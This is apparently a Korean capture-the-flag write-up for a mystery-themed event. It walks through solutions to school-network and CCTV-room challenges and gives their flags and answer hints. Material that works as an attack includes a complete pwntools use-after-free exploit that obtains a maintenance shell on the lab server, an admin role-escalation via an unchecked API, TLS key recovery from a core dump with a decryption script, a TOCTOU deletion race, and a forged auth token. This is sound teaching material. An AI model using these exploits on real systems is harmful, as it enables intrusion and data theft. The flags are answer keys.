[학교 전산망-3] 문제 해결 후, [학교 전산망-4] 문제인 UOS WISE의 주소를 알아낸 다음 회원가입 시 위 코드로 생성한 인증 토큰을 사용하고 로그인하면 플래그를 얻을 수 있습니다.


> SHA{ACCESS_GRANTED}

<details markdown="1">
<summary>힌트 1</summary>

동일한 r 사용

</details>

<details markdown="1">
<summary>힌트 2</summary>

k = (z₁-z₂)(s₁-s₂)⁻¹ mod n

</details>

<details markdown="1">
<summary>힌트 3(유효 토큰)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 학생·교직원 인증 작업을 완료했습니다.

의뢰 내용: 유효한 교직원 인증 토큰 생성
대상 시스템: UOS 통합인증
처리 결과: 교직원 인증 토큰 생성
작업 비용: 70점

요청하신 대로 작업 방법에 대한 설명은 생략하고, 결과만 전달드립니다.

생성한 인증 토큰
```
eyJhdWQiOiJVT1MtV0lTRSIsImlzc3VlciI6IlVPUy1BVVRIIiwic3ViamVjdCI6InN0YWZmLWY1YTI5NzEyMmE4YTcwOTgiLCJ0eXBlIjoic3RhZmYifQ.SXKVscR9J4MaRgNdSiaZg5K-JUwD9F-Hj8Un_JnSt3IKsitXTzOndHA5dSOppU52xeSVHtuhWncDwFXwYTnMRw
```

위 토큰을 사용해 회원가입을 진행하시기 바랍니다.

다음에도 잘 부탁드립니다.
````

</details>

#### [학교 전산망-3] 임시 전산망 복구


[학교 전산망-3]은 짝수 패리티를 이용해 DISK C를 복구하는 문제입니다.
소품으로 놓인 CD에는 다음 내용이 적혀 있습니다.


짝수 패리티는 같은 위치의 비트를 더했을 때 1의 개수가 짝수가 되도록, 즉 비트의 합을 2로 나눈 나머지가 0이 되도록 손상된 비트를 복구하는 방법입니다. 이 규칙으로 DISK C의 바이트 값 다섯 개를 복구하면 다음과 같습니다.


##### DECOY 1

위 바이트를 ASCII 문자로 읽으면 `UOSHA`입니다. 하지만 이 문자열은 정답이 아니며 자물쇠에도 입력할 수 없습니다. 비상 대응 매뉴얼에서 복구 결과를 당월의 변환표로 서버 암호 키로 바꾸라고 안내했기 때문입니다.

##### DECOY 2

[학교 전산망-1]에서 얻은 서버 암호키 변환표를 사용해도 정답이 나오지 않습니다. 해당 문서는 8월 변환표이며, 설명에서는 9월 변환표를 사용하라고 했기 때문입니다.

---

`서버 암호키 변환표 - 9월` 문서는 비상 대응 매뉴얼이 놓인 책상의 아래 서랍에 있습니다.


변환 결과인 `NIGOL`로 알파벳 자물쇠를 열면 다음 카드를 얻을 수 있습니다.


카드에는 [학교 전산망-3]의 플래그와 [학교 전산망-4]에 해당하는 UOS WISE의 서버 주소가 적혀 있으며, 참가자가 가져갈 수 있습니다.

> SHA{SERVER_LOCATED}

<details markdown="1">
<summary>힌트 1</summary>

서버키 변환 표 확인

</details>

<details markdown="1">
<summary>힌트 2</summary>

비상 대응 매뉴얼 책상 밑 서랍 확인

</details>

<details markdown="1">
<summary>힌트 3(정답)</summary>

NIGOL

</details>

#### [학교 전산망-4] UOS WISE

[학교 전산망-2]에서 유효 토큰을 생성해 회원가입에는 성공했습니다. 수사 참고자료에서의 언급에 따라 시설 출입기록 조회를 시도하면 관리자만 이용할 수 있다는 메시지가 나옵니다.


서버 코드는 주어지지 않으므로 브라우저가 받은 파일부터 확인했습니다. 개발자 도구의 `디버거` 또는 `소스` 탭에서 `/static/app.js`를 열면 다음 두 함수가 보입니다.

```jsx
async function getCurrentUser() {
    const r = await fetch("/api/me", {credentials: "same-origin"});
    return r.json();
}

async function updateAccountRole(userId, role) {
    const r = await fetch(`/api/admin/users/${userId}/role`, {
        method: "POST",
        credentials: "same-origin",
        headers: {"Content-Type": "application/json"},
        body: JSON.stringify({role})
    });
    return r.json();
}
```

첫 번째 함수는 현재 계정의 ID를 알려주고, 두 번째 함수는 전달받은 계정의 권한을 바꿉니다. 개발자 도구의 console을 통해 이 두 함수를 사용해 관리자 권한을 획득할 수 있습니다.


시설 출입기록 조회에서는 피해자인 이민성 교수와 용의자 민재훈, 오세린, 윤하진, 이태규, 최옥순의 시설 출입기록을 조회할 수 있습니다.

출입 기록에 대해서는 [수사 보고서의 정보 수집 항목](#정보-수집)에서 자세히 다룰 예정입니다.

> SHA{CHECK_THE_LOGS}

<details markdown="1">
<summary>힌트 1</summary>

접근 권한 검사 누락

</details>

<details markdown="1">
<summary>힌트 2</summary>

POST /api/admin/users/{id}/role

</details>

<details markdown="1">
<summary>힌트 3(관리자 권한 획득 익스플로잇)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 서울시립대학교 전산망 사이트의 관리자 권한 확보를 완료했습니다.

의뢰 내용: 사이트의 관리자 권한 확보
대상 서비스: UOS WISE
처리 결과: 관리자 권한 확보 및 가이드 전달
작업 비용: 70점

아래 절차를 따르십시오.

1. 아래 링크에서 파일을 다운로드 받습니다.
```
<익스플로잇 코드 파일 드라이브 링크>
```
2. 서버에 접속해 로그인합니다.
3. 개발자 도구를 열고(F12), 콘솔 창에 다운로드 받은 파일의 내용을 붙여넣고 실행합니다.

다음에도 잘 부탁드립니다.
````

</details>

#### [학교 전산망-5] UOS Webmail

UOS WISE의 전산정보-백업자료 조회를 확인하면 메일 데이터 백업 파일인 `webmail.zip`을 다운로드할 수 있습니다.


`webmail.zip`에는 웹메일 통신을 캡처한 `webmail_sync.pcap`과 프로그램의 메모리가 담긴 `webmail-syncd.core`가 들어 있습니다. PCAP을 Wireshark로 열어 보면 메일 내용은 보이지 않고 TLS 1.3으로 암호화된 데이터만 남아 있습니다.

메일은 PCAP에 들어 있지만 TLS로 암호화되어 있고, 코어 덤프에는 그 통신에 사용한 키의 조각이 남아 있습니다. 따라서 코어 덤프에서 메일을 직접 찾는 문제가 아니라, 코어 덤프에서 키를 복구해 PCAP을 여는 문제입니다.

```
코어 덤프에서 TLS traffic secret 복구
→ traffic secret으로 PCAP 복호화
→ HTTP/2 응답의 Brotli 압축 해제
→ UWS2 조각을 합쳐 EML 복구
```

이 순서로 각 계층을 하나씩 벗기면 마지막에 원본 메일이 나옵니다.

##### 코어 덤프 구조 확인

`file`로 코어 덤프의 형식을 확인하면 64비트 ELF 코어 파일로 인식됩니다.


ELF 코어 파일에서 프로세스의 메모리는 `PT_LOAD` 세그먼트에 저장됩니다. `readelf`로 확인하면 세 개의 `LOAD` 영역이 있습니다.


PCAP이 TLS 통신이므로 메모리에 남은 TLS 관련 문자열부터 확인합니다. 여기서 salt와 함께 `TSR2`라는 레코드 이름, 숫자 1과 2의 의미가 그대로 적힌 진단 문자열이 발견됩니다.


`tls_label_map`은 `TSR2` 레코드의 `label_id`가 무엇을 뜻하는지 알려 줍니다. 값 1은 클라이언트, 값 2는 서버의 TLS 1.3 application traffic secret입니다. 이제 진단 문자열에서 확인한 `TSR2`를 검색하면 레코드 후보들의 파일 오프셋을 얻을 수 있습니다. 아래 사진은 그 중 일부만 표시한 것입니다.


`TSR2`부터 36바이트를 잘라 여러 후보를 비교합니다. 다음은 그중 하나입니다.


```
54535232 | 02 | 01 | 00 | 03 | 974c99a4060d24fd
         | 3341149fafc6e9b5363ab7a4f8910c38 | 38628167
```

첫 4바이트는 문자열 `TSR2`이고 다음 바이트는 항상 `02`입니다. 그 뒤에는 `tls_label_map`에 나온 `01` 또는 `02`가 오며, 다음 값은 `00`, `01`, `02`로 변하고 그 뒤의 `03`은 유지됩니다. 마지막 4바이트가 앞부분의 CRC32와 일치하는 것까지 확인하면 레코드 구조를 다음과 같이 정리할 수 있습니다.

```
TSR2 | 버전 | label_id | 조각 번호 | 전체 조각 수
     | 세션 태그(8) | 마스킹된 secret 조각(16) | CRC32
```

##### 현재 세션의 TSR2 찾기

코어에는 세션 태그가 서로 다른 `TSR2` 레코드가 다수 섞여 있습니다. 현재 PCAP의 레코드를 고르려면 이 8바이트 태그가 어떤 값에서 만들어졌는지 확인해야 합니다.

TLS 연결마다 달라지면서 암호화되지 않은 상태로 PCAP에 남는 값은 ClientHello의 32바이트 `Random`입니다. 반면 레코드의 세션 태그는 8바이트이므로, Random의 SHA-256 해시를 8바이트로 잘라 대조합니다.


계산 결과가 앞서 확인한 레코드의 8바이트 값과 일치합니다. `974c99a4060d24fd`를 가진 레코드만 추리면 다음 여섯 개가 남습니다.

```
label_id 1: 조각 번호 0, 1, 2
label_id 2: 조각 번호 0, 1, 2
```

각 레코드의 `전체 조각 수`도 3으로 기록되어 있으므로 클라이언트와 서버에 세 조각씩, 총 여섯 개입니다. 한 조각이 16바이트이므로 한 방향의 조각을 모두 합친 길이는 48바이트입니다. 이는 ServerHello에서 선택된 SHA-384 기반 cipher suite의 traffic secret 길이와도 일치합니다.

##### Traffic secret 복구

레코드의 16바이트 영역을 조각 번호순으로 합쳐도 TLS 복호화에는 사용할 수 없습니다. `tls_fragment_salt`라는 진단 문자열이 따로 존재하므로 이 영역이 salt로 마스킹되었다고 볼 수 있습니다. 세션과 조각을 구분하는 값들을 레코드 순서대로 넣어 SHA-256을 계산하고, 16바이트 영역과 XOR합니다.

```
mask = SHA256(
    salt || client_random || session_tag || label_id || fragment_index
)[:16]

traffic_secret_fragment = masked_fragment XOR mask
```

각 `label_id`의 결과를 조각 번호순으로 연결하면 클라이언트와 서버의 48바이트 traffic secret이 완성됩니다. 이 값으로 TLS의 AES-GCM 인증 태그 검증까지 통과하므로 마스크 계산이 맞았음을 확인할 수 있습니다.

##### TLS와 메일 복구

복구한 두 traffic secret을 `tls.keys`로 저장하면 TShark가 PCAP의 TLS를 해제합니다. 그 결과는 아직 메일이 아니라 HTTP/2 응답이며, 응답 본문의 Brotli 압축을 풀면 `UWS2` 메일 조각이 나옵니다. 다음 코드는 이 과정을 거쳐 조각을 EML 파일로 합칩니다.

```python
import hashlib
import re
import struct
import subprocess
import zlib
from collections import defaultdict
from email import policy
from email.parser import BytesParser
from pathlib import Path

from elftools.elf.elffile import ELFFile

PCAP = "webmail_sync.pcap"
CORE = "webmail-syncd.core"
TSR2 = struct.Struct("<4sBBBB8s16sI")
UWS2 = struct.Struct(">4sIHHIIHHI")

def tshark(*arguments):
    return subprocess.check_output(
        ["tshark", "-r", PCAP, *arguments],
        text=True,
        stderr=subprocess.DEVNULL,
    )

# PCAP에서 ClientHello.random을 가져옵니다.
client_random = bytes.fromhex(
    tshark(
        "-Y", "tls.handshake.type == 1",
        "-T", "fields", "-e", "tls.handshake.random",
    ).strip()
)
session_tag = hashlib.sha256(client_random).digest()[:8]

# 코어의 PT_LOAD 영역에서 현재 세션의 TSR2 조각을 복구합니다.
with open(CORE, "rb") as file:
    elf = ELFFile(file)
    memory = b"".join(
        segment.data()
        for segment in elf.iter_segments()
        if segment["p_type"] == "PT_LOAD"
    )

salt = bytes.fromhex(
    re.search(rb"tls_fragment_salt=([0-9a-f]{32})", memory)[1].decode()
)
pieces = defaultdict(dict)
position = 0

while (position := memory.find(b"TSR2", position)) >= 0:
    raw = memory[position:position + TSR2.size]
    position += 1
    if len(raw) != TSR2.size:
        continue

    _, version, label, index, _, tag, masked, crc = TSR2.unpack(raw)
    if (
        version != 2
        or label not in (1, 2)
        or tag != session_tag
        or zlib.crc32(raw[:-4]) & 0xFFFFFFFF != crc
    ):
        continue

    mask = hashlib.sha256(
        salt + client_random + session_tag + bytes((label, index))
    ).digest()[:16]
    pieces[label][index] = bytes(a ^ b for a, b in zip(masked, mask))

secrets = {
    label: b"".join(parts[index] for index in sorted(parts))
    for label, parts in pieces.items()
}

# Wireshark/TShark가 읽을 수 있는 key log 파일을 만듭니다.
keylog = Path("tls.keys")
keylog.write_text(
    f"CLIENT_TRAFFIC_SECRET_0 {client_random.hex()} {secrets[1].hex()}\n"
    f"SERVER_TRAFFIC_SECRET_0 {client_random.hex()} {secrets[2].hex()}\n"
)

# TShark로 TLS와 Brotli를 풀고 재조립된 HTTP/2 DATA를 가져옵니다.
bodies = {}
rows = tshark(
    "-o", f"tls.keylog_file:{keylog.resolve()}",
    "-Y", "tcp.srcport == 443 && http2.type == 0 && http2.flags.end_stream == 1",
    "-T", "fields", "-e", "http2.streamid", "-e", "http2.data.data",
)
for row in rows.splitlines():
    stream_id, data = row.split("\t")
    bodies[int(stream_id)] = bytes.fromhex(data)

# UWS2 조각을 UID별로 모읍니다.
mails = defaultdict(list)
for data in bodies.values():
    position = 0
    while position < len(data):
        magic, uid, _, _, offset, full_size, size, _, crc = UWS2.unpack_from(data, position)
        position += UWS2.size
        fragment = data[position:position + size]
        position += size
        assert magic == b"UWS2" and zlib.crc32(fragment) & 0xFFFFFFFF == crc
        mails[uid].append((offset, full_size, fragment))

output = Path("recovered")
output.mkdir(exist_ok=True)
flag = []

for uid, parts in sorted(mails.items()):
    message = bytearray(parts[0][1])
    for offset, _, fragment in parts:
        message[offset:offset + len(fragment)] = fragment

    message = bytes(message)
    (output / f"{uid}.eml").write_bytes(message)
    fragment = BytesParser(policy=policy.default).parsebytes(message)[
        "X-UOS-Recovery-Fragment"
    ]
    if fragment:
        flag.append(str(fragment))

print("".join(flag))
```


위 코드를 실행하면 `recovered`에 수많은 .eml 파일이 생성됩니다.
파일 중 `410*.eml` 파일은 사용자 ‘mslee’와 ‘hajin000629’와의 대화이며, `520*.eml` 파일은 사용자 ‘yeeunk0426’과 ‘tglee’와의 대화입니다.

[사이버수사대-5]에서의 윤하진의 아이디와 윤하진의 진술서로부터 `410*.eml`은 이민성과 윤하진의 대화라는 것을 추측할 수 있고, [사이버수사대-2]에서의 강예은과 이태규의 말투로 `520*.eml`은 강예은과 이태규의 대화라는 것을 추측할 수 있습니다.

또는 아이디를 통해 각 인물과 매칭해 볼 수 있습니다.

---

플래그는 2조각으로 구성되어 각각 `4107.eml`과 `5202.eml`에 있습니다.


> SHA{THEIR_SECRET_CONVERSATION}

<details markdown="1">
<summary>힌트 1</summary>

ELF ET_CORE → PT_LOAD → TSR2

</details>

<details markdown="1">
<summary>힌트 2</summary>

SHA256(ClientHello.random)[:8] → TLS 1.3 traffic secret → HTTP/2 → Brotli → UWS2

</details>

<details markdown="1">
<summary>힌트 3(복호화 메일 파일)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 웹메일 통신 기록 복구 작업을 완료했습니다.

의뢰 내용: 캡처된 통신 데이터와 서버 기록에서 웹메일 복구
대상 자료: webmail_sync.pcap, webmail-syncd.core
처리 결과: 웹메일 40건 복구 완료
작업 비용: 70점

확보한 메일 파일은 아래 링크에 업로드해 두었습니다.
```
<파일 드라이브 링크>
```

다음에도 잘 부탁드립니다.
````

</details>

#### 획득할 수 있는 정보

[학교 전산망-1] ~ [학교 전산망-5]에서 획득할 수 있었던 사건 관련 주요 정보는 다음과 같습니다.

- [학교 전산망-4] : 사건 관련 인물의 교내 출입기록
[수사 보고서의 정보 수집 항목](#정보-수집)에서 자세히 다룰 예정입니다.
- [학교 전산망-5] : 이민성과 윤하진의 메일 기록 - 이민성이 윤하진에게 잡무를 시키는 내용의 메일
- [학교 전산망-5] : 이태규와 강예은의 메일 기록 - 강예은이 이태규에게 보낸 선물([사이버수사대-4])에 대해 대화하는 메일

<span id="cctv-room"></span>

### 수사 장소 4 - CCTV 관리실


CCTV 관리실에서는 사건 발생 시간대의 삭제된 CCTV 기록을 복구하고, 탐정 팀의 흔적을 삭제하며, CCTV 삭제 원인을 조사해야 합니다.

방에 들어가면 잠긴 노트북과 4자리 숫자 금고가 보입니다. 참가자는 `CCTV 관리실 근무 지침`과 `CCTV 관리자 근무 일지`부터 확인합니다.

#### [CCTV 관리실-1] 노트북 비밀번호

CCTV 관리실 근무 지침은 다음 두 가지 목적으로 배치했습니다.

1. [CCTV 관리실-2], [CCTV 관리실-4] 문제 파일 링크가 담긴 QR 카드 전달
2. [CCTV 관리실-1] 문제로의 유도


참가자는 문서 위에 놓인 QR 카드를 가져가 [CCTV 관리실-2]와 [CCTV 관리실-4]의 문제 파일을 얻을 수 있습니다.

CCTV 관리실 근무 지침과 함께 클립보드에 끼워 둔 미로가 [CCTV 관리실-1] 문제입니다.


왼쪽 위의 S, 오른쪽 아래의 E, 막히거나 뚫린 격자 경계를 통해 미로임을 알 수 있습니다. 먼저 열린 길을 모두 연결한 뒤 출구로 이어지지 않는 길을 지우면 쉽게 해결할 수 있습니다. 완성한 미로는 다음과 같습니다.


미로 경로에는 `ㆍ`, `-`, 빈칸이 배치되어 있습니다. `ㆍ`와 `-`가 이어진 부분은 문자 하나를 나타내며, 문자는 빈칸 두 개로 구분됩니다.
경로의 모스 부호를 문 뒤에 붙어 있던 모스 부호표로 변환하면 `9DNJF(`이 됩니다. 이 문자열로 노트북의 잠금을 해제하면 CCTV 관리 프로그램과 메모장에 입력된 [CCTV 관리실-1]의 플래그를 확인할 수 있습니다.

이후 CCTV 관리 프로그램에서 CCTV 기록이 삭제된 내역과 탐정의 사진을 발견할 수 있고, 이는 각각 [CCTV 관리실-2]와 [CCTV 관리실-4] 문제로 연결됩니다. 현장팀은 CCTV 관리 프로그램 내에서 [CCTV 관리실-2]와 [CCTV 관리실-4] 문제의 서버를 수집해 수사팀에게 전달해야 합니다.

> SHA{WELCOME_OPERATOR}

<details markdown="1">
<summary>힌트 1</summary>

미로 해결 → 모스 부호

</details>

<details markdown="1">
<summary>힌트 2(정답)</summary>

9DNJF(

</details>

#### [CCTV 관리실-2] 삭제된 CCTV

[CCTV 관리실-2]는 CCTV 복구 서버입니다.

서버에 접속한 뒤 `help archive`를 입력하면 영상 검색 명령을 확인할 수 있습니다.


검색 결과에는 23시 26분 스냅샷 구간 `SEG-09182326`이 `DELETED` 상태로 남아 있습니다. `archive info SEG-09182326`으로 확인해 보면 원본은 삭제되었지만, 잠긴 백업은 아직 보관 중입니다.


`profile list`에는 백업을 복원하는 `cold-storage-restore` 프로필도 보입니다. 다만 이 프로필은 관리자 전용이며, 현재 계정으로 복구 작업을 실행하면 권한이 없다는 메시지만 출력됩니다.


##### Use-After-Free

`job create`는 48바이트 크기의 복구 작업을 만들고, 이를 두 포인터가 함께 가리키게 합니다. 그런데 `audit rotate`는 메모리를 해제하면서 한쪽 포인터만 비웁니다. `job resume`에서 사용하는 포인터는 해제된 주소를 계속 가리키고 있습니다.

```
복구 작업 생성:  active_job ─┐
                            ├─> 48바이트 복구 작업
                queued_job ─┘

감사 기록 회전:  active_job = NULL
                queued_job ────> 이미 해제된 메모리
```

이어서 `audit note`를 호출하면 같은 크기의 48바이트 메모리가 다시 할당됩니다. 입력할 수 있는 메모는 앞의 24바이트뿐이지만, `audit show JOB-0075 --raw`는 뒤쪽까지 모두 출력합니다. 따라서 새 메모 뒤에 남아 있던 기존 복구 함수 주소를 읽을 수 있습니다.


유출되는 기본 복구 함수의 파일 오프셋은 `0x17A2`입니다. `Cold archive access denied` 문자열을 출력하는 함수의 시작점을 확인하면 이 오프셋을 찾을 수 있습니다.

반대로 `Maintenance shell granted` 문자열을 출력하는 함수는 관리자용 복구 함수이며, 파일 오프셋은 `0x1814`입니다. 두 함수는 같은 PIE 파일에 있으므로 다음 계산만으로 관리자용 함수의 실제 주소를 구할 수 있습니다.

```
관리자용 복구 함수 주소 = 유출 주소 + (0x1814 - 0x17A2)
```

마지막으로 `profile apply`를 확인하면 감사 메모를 해제한 뒤, 같은 크기의 프로필을 새로 할당하고 사용자가 보낸 48바이트를 그대로 복사합니다. 앞서 남은 `queued_job` 포인터는 이제 이 프로필을 복구 작업처럼 사용하게 됩니다.

프로필 검사를 통과하려면 48바이트를 다음 구조로 만들어야 합니다.

```
+0x00  16바이트  cold-restore
+0x10   8바이트  raw-v1
+0x18   8바이트  관리자용 복구 함수 주소
+0x20   8바이트  구간 번호 0x09182326
+0x28   4바이트  활성 플래그 1
+0x2C   4바이트  검산값
```

```python
from pwn import context, p32, p64, remote, u64

context.arch = "amd64"
context.log_level = "error"

io = remote("127.0.0.1", 40599)
prompt = b"framevault> "

def command(data):
    io.sendlineafter(prompt, data)

def checksum(data):
    value = 0x52454356
    for byte in data:
        value ^= byte
        value = value * 0x01000193 & 0xffffffff
        value = (value << 5 | value >> 27) & 0xffffffff
    return value ^ 0xa17c9e3b

# 복구 작업을 해제한 뒤 같은 크기의 감사 메모로 재사용합니다.
command(b"job create SEG-09182326")
command(b"audit rotate JOB-0075")
io.sendlineafter(prompt, b"audit note JOB-0075")
io.sendlineafter(b"Note: ", b"A" * 24)

# Raw 기록의 25번째 바이트부터 기존 함수 주소가 남아 있습니다.
io.sendlineafter(prompt, b"audit show JOB-0075 --raw")
io.recvuntil(b"----- BEGIN RAW AUDIT RECORD -----\n")
raw_record = io.recvn(48)

normal_recovery = u64(raw_record[24:32])
admin_recovery = normal_recovery + (0x1814 - 0x17a2)

# 검사 조건에 맞춘 48바이트 복구 프로필을 만듭니다.
profile = b"cold-restore".ljust(16, b"\0")
profile += b"raw-v1".ljust(8, b"\0")
profile += p64(admin_recovery)
profile += p64(0x09182326)
profile += p32(1)
profile += p32(checksum(profile))

# 감사 메모를 프로필로 교체한 뒤, 남아 있는 포인터로 실행합니다.
io.sendlineafter(prompt, b"profile apply JOB-0075")
io.sendlineafter(b"Profile name: ", b"custom-recovery")
io.sendlineafter(b"Profile data (96 hex characters): ", profile.hex().encode())
command(b"job resume JOB-0075")

io.recvuntil(b"[RECOVERY] Maintenance shell granted.\n")
io.interactive()
```


`[Deleted]`에 있는 두 개의 사진 파일을 로컬로 꺼내보겠습니다. 기존 익스플로잇 코드 마지막의 `io.interactive()`를 다음 코드로 교체합니다.

```python
from base64 import b64decode
from pathlib import Path

files = [
    "CAM073-20260918230511-Snapshotd.png",
    "CAM075-20260918231857-Snapshot[CCTV 관리실-3].png",
]

io.recvuntil(b"$ ")
for name in files:
    path = f"/home/ctf/[Deleted]/{name}"
    io.sendline(f"base64 -w 0 '{path}'; echo".encode())
    Path(name).write_bytes(b64decode(io.recvline().strip()))
    io.recvuntil(b"$ ")
```


두 개의 사진 파일을 얻었습니다. 이 중 `CAM073-20260918230511-Snapshotd.png`를 확인해보면 최옥순이 이민성의 교수 연구실에 진입하는 장면을 확인하고 플래그를 얻을 수 있습니다.


> SHA{WHY_IS_SHE_THERE}

<details markdown="1">
<summary>힌트 1</summary>

UAF<br>
queued_job

</details>

<details markdown="1">
<summary>힌트 2</summary>

0x30 동일 청크<br>
job create → audit rotate → audit note(A×24) → audit show --raw / raw[24:32]

</details>

<details markdown="1">
<summary>힌트 3(문제 서버 내 파일)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 삭제된 CCTV 기록 복구 작업을 완료했습니다.

의뢰 내용: 사건 발생 시각에 삭제된 CCTV 기록 복구
대상 기록: CAM073-20260918230511-Snapshotd.png, CAM075-20260918231857-Snapshot[CCTV 관리실-3].png
처리 결과: 삭제된 CCTV 이미지 2건 복구 완료
작업 비용: 70점

요청하신 대로 작업 방법에 대한 설명은 생략하고, 결과만 전달드립니다.

확보한 사진 파일은 아래 링크에 업로드해 두었습니다.
```
<파일 드라이브 링크>
```

확보한 사진에 대해서 추가로 복원이 필요할 것으로 예상됩니다.

다음에도 잘 부탁드립니다.
````

</details>

#### [CCTV 관리실-3] 사진 복구

[CCTV 관리실-2]에서 얻은 사진 중 이상한 사진이 하나 있습니다. 자세히 보면 새로운 노이즈가 생긴 것이 아니라 이미지의 가로줄과 세로줄 순서만 뒤섞여 있습니다.


일반적인 사진에서는 서로 붙어 있던 두 행과 열의 색 분포가 비슷합니다. 따라서 모든 행 사이의 차이를 계산해 가장 비슷한 행끼리 연결하면 원래 순서를 추정할 수 있습니다.

코드에서는 각 행을 하나의 조각으로 보고, 한 조각에 연결이 두 개를 넘지 않도록 가장 가까운 조각을 이어 하나의 경로를 만듭니다. 잘못 이어진 구간은 경로 일부를 뒤집어 전체 차이를 줄이는 2-opt 방식으로 다듬습니다. 행을 맞춘 뒤 같은 작업을 열에도 적용합니다.

```python
import numpy as np
from PIL import Image
from scipy.spatial.distance import pdist, squareform

def two_opt(path, distance):
    for _ in range(50):
        move, best = None, 0
        for start in range(1, len(path) - 2):
            ends = np.arange(start + 1, len(path) - 1)
            delta = (
                distance[path[start - 1], path[ends]]
                + distance[path[start], path[ends + 1]]
                - distance[path[start - 1], path[start]]
                - distance[path[ends], path[ends + 1]]
            )
            index = np.argmin(delta)
            if delta[index] < best:
                best = delta[index]
                move = start, ends[index]

        if move is None:
            break
        start, end = move
        path[start:end + 1] = path[start:end + 1][::-1]
    return path

def find_order(parts, metric):
    distance = squareform(pdist(parts, metric)).astype(np.float32)
    count = len(parts)
    left, right = np.triu_indices(count, 1)
    group = np.arange(count)
    degree = np.zeros(count, dtype=np.uint8)
    links = [[] for _ in range(count)]

    for index in np.argsort(distance[left, right], kind="stable"):
        a, b = left[index], right[index]
        if degree[a] == 2 or degree[b] == 2 or group[a] == group[b]:
            continue

        group[group == group[b]] = group[a]
        degree[[a, b]] += 1
        links[a].append(b)
        links[b].append(a)

        if degree.sum() == 2 * (count - 1):
            break

    path = [np.flatnonzero(degree == 1)[0]]
    while len(path) < count:
        previous = path[-2] if len(path) > 1 else -1
        path.append(next(node for node in links[path[-1]] if node != previous))

    return two_opt(np.array(path), distance)

source = Image.open("CAM075-20260918231857-Snapshot[CCTV 관리실-3].png").convert("RGB")
image = np.asarray(source)
gray = (
    0.299 * image[:, :, 0]
    + 0.587 * image[:, :, 1]
    + 0.114 * image[:, :, 2]
).astype(np.float32)

rows = find_order(gray, "correlation")
columns = find_order(gray.T, "cityblock")
recovered = image[rows][:, columns]

for name, result in {
    "recovered.png": recovered,
    "recovered_hflip.png": recovered[:, ::-1],
    "recovered_vflip.png": recovered[::-1],
    "recovered_hvflip.png": recovered[::-1, ::-1],
}.items():
    Image.fromarray(result).save(name)
```


복원된 화면에는 계단에 쓰러진 이민성, 아래층의 강예은, 위층에 서 있는 또 다른 인물이 함께 찍혀 있습니다.

> SHA{WHO_WAS_DOWNSTAIRS}

<details markdown="1">
<summary>힌트 1</summary>

행·열 독립 복원

</details>

<details markdown="1">
<summary>힌트 2</summary>

인접 행·열의 픽셀 유사도

</details>

<details markdown="1">
<summary>힌트 3(복구된 파일)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 CCTV 이미지 복원 작업을 완료했습니다.

의뢰 내용: 뒤섞인 CCTV 이미지의 행과 열을 재배열해 원본 복원
대상 자료: CAM075-20260918231857-Snapshot[CCTV 관리실-3].png
처리 결과: 사건 발생 시각의 계단 CCTV 이미지 복원 완료
작업 비용: 70점

요청하신 대로 작업 방법에 대한 설명은 생략하고, 결과만 전달드립니다.

확보한 사진 파일은 아래 링크에 업로드해 두었습니다.
```
<파일 드라이브 링크>
```

다음에도 잘 부탁드립니다.
````

</details>

#### [CCTV 관리실-4] 탐정의 흔적

CCTV 관리 프로그램의 데이터 삭제 메뉴에는 기간이 만료된 영상과 관리자만 삭제할 수 있는 보호 영상이 함께 표시되어 있었습니다. 보호 영상의 파일명은 `CAM042-20260919xxxxxx-Snapshot.png`입니다.


##### TOCTOU

먼저 Ghidra의 문자열 창에서 `Cleanup request submitted for validation.`을 찾고 XREF를 따라가면 `FUN_00104cab`에 도착합니다.


이 함수는 상태값을 바꾼 뒤 `pthread_create()`를 호출하며, 세 번째 인자로 `FUN_00103ff8`을 넘깁니다. 따라서 `FUN_00103ff8`이 실제 검증 작업을 수행하는 스레드 함수임을 알 수 있습니다.


`FUN_00103ff8`을 보면 작업 초반에 공유 영역 `+0x2b0`의 64바이트를 지역 변수로 복사한 뒤 `FUN_00103c02`로 검사합니다. `FUN_00103c02`는 32바이트 서명을 새로 계산해 기존 서명과 비교하는 함수입니다.

하지만 검사 후에는 `pthread_cond_timedwait()`로 최대 2초간 대기하고, 공유 영역 `+0x2f0`의 64바이트를 다시 읽어 `FUN_00103f2c`에 전달합니다. `FUN_00103f2c`를 따라가면 마지막에 `unlink()`를 호출하므로 실제 파일 삭제 함수라는 것도 확인할 수 있습니다.


핵심만 정리하면 다음과 같습니다.

```c
복사본 A = 공유 영역 + 0x2b0;
FUN_00103c02(복사본 A);       // 승인 검사

pthread_cond_timedwait(...);  // 최대 2초 대기

복사본 B = 공유 영역 + 0x2f0;
FUN_00103f2c(복사본 B);       // unlink()로 삭제
```

이제 `Snapshot version does not match.` 문자열의 XREF를 따라가면 `FUN_001048b2`가 나옵니다.


이 함수는 `cleanup retarget`을 처리하며, 상태값이 `3`이고 입력한 버전이 공유 영역 `+0x35c`의 값과 같을 때 다음 작업을 합니다.

```c
if (상태값 == 3 && 입력한_버전 == *(공유 영역 + 0x35c)) {
    *(공유 영역 + 0x360) = 1;
    strncpy(공유 영역 + 0x2f0, 새_파일명, 0x3f);
    pthread_cond_signal(공유 영역 + 0x390);
}
```

즉, 검증 스레드가 기다리는 동안 삭제 대상이 들어 있는 `+0x2f0` 영역을 바꾸고 즉시 스레드를 깨울 수 있습니다. 만료된 일반 파일로 승인을 받은 뒤 이 틈에 대상을 보호 영상으로 바꾸면, 검사한 파일과 실제 삭제되는 파일이 달라집니다. 이러한 취약점을 TOCTOU라고 합니다.

`cleanup retarget`은 파일명이 아니라 `STG-` 형식의 핸들을 받습니다. `STG-%8x%c` 문자열의 XREF인 `FUN_00103e66`을 보면 모든 파일명을 돌면서 `FUN_00103de2`의 반환값과 입력값을 비교합니다.

`FUN_00103de2`에는 초깃값 `0x43435456`, 7비트 회전, `0x9e3779b9` 덧셈, 마지막 `0xa5c31f27` XOR이 그대로 보입니다. 이 계산을 보호 영상의 파일명에 적용합니다.

```python
name = b"CAM042-20260919xxxxxx-Snapshot.png"
value = 0x43435456

for byte in name:
    value = ((value << 7) | (value >> 25)) & 0xffffffff
    value ^= byte
    value = (value + 0x9e3779b9) & 0xffffffff

print(f"STG-{value ^ 0xa5c31f27:08x}")
```


